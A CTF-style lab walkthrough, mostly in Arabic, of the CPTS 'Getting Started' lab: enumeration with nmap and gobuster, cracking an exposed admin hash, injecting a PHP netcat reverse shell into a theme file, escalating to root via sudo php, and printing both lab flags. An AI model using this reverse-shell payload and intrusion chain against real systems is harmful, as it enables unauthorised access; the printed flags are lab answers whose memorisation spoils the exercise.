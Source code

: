 ohhhh, here we go again
Hi, Hackers
As part of my CPTS studies, I’ve finished the first module, “Getting Started.” 
Today, we’re going to do a walkthrough for it — let’s dive into the lab!  
The goal of this lab is to gain an initial foothold, achieve RCE on the server, and then perform privilege escalation
## Lab Walkthrough
**Enumeration**
- كعادة اي حد هنعمل nmap scan
```
nmap 10.129.225.216
```
![](Pasted%20image%2020250918183656.png)
- حلو جدا في بورت 80 مفتوح يلا نبص علي الويب سايت![](Pasted%20image%2020250918183734.png)
- موقع بسيط خالص ومفيهوش اي حاجه
**تعالو نجرب نعمل Fuzzing علي directories من خلال اداة الGobuster**
```
gobuster dir -u http://10.129.225.216 -w /usr/share/wordlists/dirb/common.txt\
```
![](Pasted%20image%2020250918183933.png)
دول كل الdirectories اللي طلعولنا
- اعتقد ان dir بتاع data ده مهم تعالو نخش عليه
![](Pasted%20image%2020250918184039.png)
نخش علي users ممكن ناخد اي creds
لقيت فايل باسم `admin.xml` تعالو ندخل عليه
```
<item>
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>
<HTMLEDITOR>1</HTMLEDITOR>
<TIMEZONE/>
<LANG>en_US</LANG>
</item>
```
ده المحتوي بتاع الفايل اللي ظهرلي وتقريبا `admin` دي يوزر لحاجه والهاش ده تعالو نكسره كده
![](Pasted%20image%2020250918184237.png)
اوووه الهاش بعد ما كسرناه اسمه `admin` معني كده ان دول creds لحاجه هنعمل بيها login
![](Pasted%20image%2020250918183933.png)
لو رجعنا تاني علي الdir اللي عملنا fuzz عليها هنلاقي /admin
![](Pasted%20image%2020250918184412.png)
تعالو نسجل هنا ب `admin:admin`
![](Pasted%20image%2020250918184505.png)
بوووووم دخلنا علي admin panel
**Exploitation**
- بعد ما قعدت ادور كتير علي اي طريقه ارفع بيها فايل Reverse Shell بحيث اخد منو RCE
![](Pasted%20image%2020250918184656.png)
دخلت علي التابه دي وبدوس upload ومش عايزه تشتغل
- جربت اروح علي تاب theme
- ![](Pasted%20image%2020250918184752.png)
في زر edit theme جربت ادوس عليه
![](Pasted%20image%2020250918184824.png)
اوف فتحلي هنا اسكريبت ومكتوب بphp ومتاح اني اعدل عليه
فا انا هنا هعدل عليه وهكتب كود ينفذلي reverse shell وهو هنا كمان حاطط مسار الملف عشان اقدر اشغله
```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f"); ?>
```
كتبت الاسكريبت ده ودوست save
تعالو نروح نفتح البورت ده عندنا ونعمل عليه listen
```
nc -nlvp 4444
```
![](Pasted%20image%2020250918185113.png)
وبعد كده روحنا كتبنا امر `curl` في الterminal
```
curl "http://10.129.225.216/theme/Innovation/template.php"
```
![](Pasted%20image%2020250918185232.png)
![](Pasted%20image%2020250918185243.png)
بووووم اخدنا الشيل
هنحاول ندور بقي علي `user.txt` زي ما قايلنا
![](Pasted%20image%2020250918185330.png)
ده الفلاج : `7002d65b149b0a4d19132a66feed21d8`
**Post-Exploitation**
- بعد ما اخدنا شيل علي السيرفر محتاجين دلوقتي نعمل privesc
- هنا هنستخدم تكنيك ال`sudo -l` 
![](Pasted%20image%2020250918185442.png)
لقيت في امر php ممكن انفذو كا root من غير pass
- روحت علي موقع **GTFObins** وسرشت علي php
https://gtfobins.github.io/gtfobins/php/#sudo
![](Pasted%20image%2020250918185548.png)
يلا ناخد الكود ده كوبي وننفذه
![](Pasted%20image%2020250918185633.png)
بووووم بقينا root وبقي سهل دلوقتي نجيب الفلاج التاني
![](Pasted%20image%2020250918185719.png)
جبنا الفلاج التاني
الفلاج: `f1fba6e9f71efb2630e6e34da6387842`

بس كده وبكده نكون جبنا الفلاجين وحلينا اللاب بنجاح

----
### ✅ Feel free to connect with me:

- [LinkedIn – Muhammed Tantawy](https://www.linkedin.com/in/muhammed-tantawy-484441218/)
- [GitHub – tantawix](https://github.com/tantawix)

Thanks for reading 🙌  
More write-ups coming soon — stay tuned!